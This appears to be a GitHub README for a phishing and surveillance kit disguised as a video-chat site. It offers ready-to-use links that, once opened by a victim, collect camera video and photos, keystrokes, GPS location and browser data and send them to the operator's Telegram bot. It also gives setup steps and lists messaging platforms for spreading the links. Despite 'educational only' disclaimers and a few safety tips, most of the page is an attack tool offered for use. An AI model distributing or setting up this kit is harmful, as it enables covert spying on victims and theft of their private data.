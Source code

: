 ## 🧑‍💻 K4geN1nja

This **semi-open source** demonstrates how hackers use social engineering to collect a user's device information through a malicious link. Learn how this method works and how to protect yourself.

---

## 🧠 How It Works

Hackers create fake websites and use **social engineering** to manipulate users into granting permissions. Once a user clicks on the malicious link, they are asked to grant various permissions, such as:

- Camera 📷
- Microphone 🎤
- Keyboard ⌨️
- GPS Location 📍

If the user grants these permissions, the hacker can gain access to sensitive data, including camera, microphone, and browser information. However, if the user denies the permissions, the hacker can still secretly collect browser-related data and more.

**📸 Data Reception on public code API**

![public](https://i.postimg.cc/3xp1PkXT/IMG-20250730-155932.jpg)

**📸 Data Reception on private code API**

![private](https://i.postimg.cc/ZnBppQjS/IMG-20250730-155721.jpg)

**🎥 Educational Demo**
> https://youtu.be/8tWrX9j5Nuo

---

## 🛡️ How to Stay Safe

* Avoid clicking on suspicious links.
* Use **Firefox or Brave or Tor Browser** for enhanced security, as it blocks many malicious scripts by default.

**📱 Browser safety comparison**

![safety](https://i.postimg.cc/hjswYpk6/IMG-20250730-163909.jpg)

---

## ⚙️ Build Your Own Site

Create a similar setup by entering your **Telegram Bot Token** and **Chat ID** on the platform below 🔒

> [▶️ Launch Test Site](https://vide0chat.vercel.app/)

---

## 📚 Setup Guide

1. **Get Your Telegram Bot Token** and **Chat ID** by following this tutorial:

> https://youtube.com/shorts/ZvCdiTS-uGw

---

## 🚀 Public & Private Comparison

| Variant            | Use-Case                   |
| -------------------|--------------------------- |
|🌐 Public Code API  | Study, audit, learn        |
|⚡ Private Code API | Controlled red-team drills |

---

## 📋 Quick API

**Front c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m vide0 & info**

```bash
https://vide0chat.vercel.app/video-b.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Front c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**Back c@m ph0t0 & info**

```bash
https://vide0chat.vercel.app/video-f.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

**keyb0@rd & l0c@tion**

```bash
https://vide0chat.vercel.app/main.html?token=$TELEGRAM_BOT_TOKEN&id=$TELEGRAM_CHAT_ID
```

⚠️ **Replace** `YOUR_TOKEN` and `YOUR_CHAT_ID` with your actual Telegram Bot Token and Chat ID.

---

## 🚀 API Works on: 
- Telegram  
- Facebook Messenger  
- Instagram  
- Discord  
- Any platform that supports clickable links and embedded previews

---

> **⚠️ Warning:** This project is **educational only**. Do **not** engage in unauthorized access or use for malicious purposes. **Always obtain explicit consent** before performing any securi
ty testing.
